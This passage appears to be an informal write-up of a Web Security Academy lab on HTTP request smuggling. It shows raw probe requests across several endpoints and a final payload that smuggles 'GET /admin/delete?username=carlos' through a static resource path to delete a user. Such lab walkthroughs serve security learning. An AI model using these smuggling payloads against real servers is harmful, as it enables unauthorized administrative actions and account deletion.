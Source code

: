 (this way Front End server will get a valid CL value, that reflects full payload, and let everything through. A value that the later Back-End server will be more than happy to ignore and do his own thing. you know, TE)

for the **smuggeld request** we will use the **/**:
```
POST / HTTP/1.
Host: 0ae4006204a47aebc0c9a0a2002900ef.web-security-academy.net
Cookie: session=I60GZDQYEO0y8V8YuTucPs9FQhArLUMl
Connection: keep-alive
Content-Length: 27

POST / HTTP/1.1
foo: x
```
sending the payload yields no abnormal resaults. lets try it on other endpoint:



**Prob's carft:**
```
POST / HTTP/1.1
Host: 0ae4006204a47aebc0c9a0a2002900ef.web-security-academy.net
Cookie: session=I60GZDQYEO0y8V8YuTucPs9FQhArLUMl
Connection: close
Content-Length: 0


POST /404finder HTTP/1.1
foo: x
```
all response are 200 ok for the carrier request.

lets look into other endpoint until we find the one acting strangly:
POST /post/comment HTTP/1.1 - normal
POST /my-account HTTP/1.1 - normal
POST /resources/images/blog.svg HTTP/1.1 - not normal!
```
we obderve we get a responses for the svg resource and a "404 not found" immidiatly after. this implies the resource server is vulnerable to suggeling

lets arm the prob with a "delete carlos" warhead:
```
POST /resources/images/blog.svg HTTP/1.1
Host: 0ae4006204a47aebc0c9a0a2002900ef.web-security-academy.net
Cookie: session=I60GZDQYEO0y8V8YuTucPs9FQhArLUMl
Connection: keep-alive
Content-Length: 54


GET /admin/delete?username=carlos HTTP/1.1
x: x

```

Victory! Carlos is deleted!








payload:
POST /resources/images/blog.svg HTTP/1.1
Host: 0a5600b20333dff4c00669e0008900cf.web-security-academy.net
Cookie: session=g7dk6M42BAlaCge5bRfY2UUbrkTgVcpx
Connection: keep-alive
```